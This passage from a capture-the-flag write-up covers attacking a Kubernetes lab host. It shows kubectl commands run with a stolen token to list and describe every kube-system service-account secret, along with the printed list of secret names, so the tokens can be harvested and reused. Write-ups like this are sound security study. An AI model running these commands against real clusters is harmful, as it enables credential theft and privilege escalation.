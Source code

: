 We can read **secrets** from **kube-system** !!! 

There's a quickly foundable way of exploiting kubernetes with bootstrap-signer token (which we have) but in this case the RBAC was forbidding us from doing so <br>

So i then listed all the secrets and described them (to disclose their token so i could make requests with them)
```bash
# listing the secrets

cmd: kubectl --token=$TOKEN --server=https://10.10.10.235:8443 --certificate-authority=ca.cert get secret -n kube-system

NAME                                             TYPE                                  DATA   AGE
attachdetach-controller-token-5dkkr              kubernetes.io/service-account-token   3      113d
bootstrap-signer-token-xl4lg                     kubernetes.io/service-account-token   3      113d
c-admin-token-tfmp2                              kubernetes.io/service-account-token   3      113d
certificate-controller-token-thnxw               kubernetes.io/service-account-token   3      113d
clusterrole-aggregation-controller-token-scx4p   kubernetes.io/service-account-token   3      113d
coredns-token-dbp92                              kubernetes.io/service-account-token   3      113d
cronjob-controller-token-chrl7                   kubernetes.io/service-account-token   3      113d
daemon-set-controller-token-cb825                kubernetes.io/service-account-token   3      113d
default-token-l85f2                              kubernetes.io/service-account-token   3      113d
deployment-controller-token-cwgst                kubernetes.io/service-account-token   3      113d
disruption-controller-token-kpx2x                kubernetes.io/service-account-token   3      113d
endpoint-controller-token-2jzkv                  kubernetes.io/service-account-token   3      113d
endpointslice-controller-token-w4hwg             kubernetes.io/service-account-token   3      113d
endpointslicemirroring-controller-token-9qvzz    kubernetes.io/service-account-token   3      113d
expand-controller-token-sc9fw                    kubernetes.io/service-account-token   3      113d
generic-garbage-collector-token-2hng4            kubernetes.io/service-account-token   3      113d
horizontal-pod-autoscaler-token-6zhfs            kubernetes.io/service-account-token   3      113d
job-controller-token-h6kg8                       kubernetes.io/service-account-token   3      113d
kube-proxy-token-jc8kn                           kubernetes.io/service-account-token   3      113d
namespace-controller-token-2klzl                 kubernetes.io/service-account-token   3      113d
node-controller-token-k6p6v                      kubernetes.io/service-account-token   3      113d
persistent-volume-binder-token-fd292             kubernetes.io/service-account-token   3      113d
pod-garbage-collector-token-bjmrd                kubernetes.io/service-account-token   3      113d
pv-protection-controller-token-9669w             kubernetes.io/service-account-token   3      113d
pvc-protection-controller-token-w8m9r            kubernetes.io/service-account-token   3      113d
replicaset-controller-token-bzbt8                kubernetes.io/service-account-token   3      113d
replication-controller-token-jz8k8               kubernetes.io/service-account-token   3      113d
resourcequota-controller-token-wg7rr             kubernetes.io/service-account-token   3      113d
root-ca-cert-publisher-token-cnl86               kubernetes.io/service-account-token   3      113d
service-account-controller-token-44bfm           kubernetes.io/service-account-token   3      113d
service-controller-token-pzjnq                   kubernetes.io/service-account-token   3      113d
statefulset-controller-token-z2nsd               kubernetes.io/service-account-token   3      113d
storage-provisioner-token-tk5k5                  kubernetes.io/service-account-token   3      113d
token-cleaner-token-wjvf9                        kubernetes.io/service-account-token   3      113d
ttl-controller-token-z87px                       kubernetes.io/service-account-token   3      113d

# describing the secrets
cmd: kubectl --token=$TOKEN --server=https://10.10.10.235:8443 --certificate-authority=ca.cert describe secret -n kube-system > readable_secrets.list

# THE FULL LIST WILL BE IN THE REPO
``` 
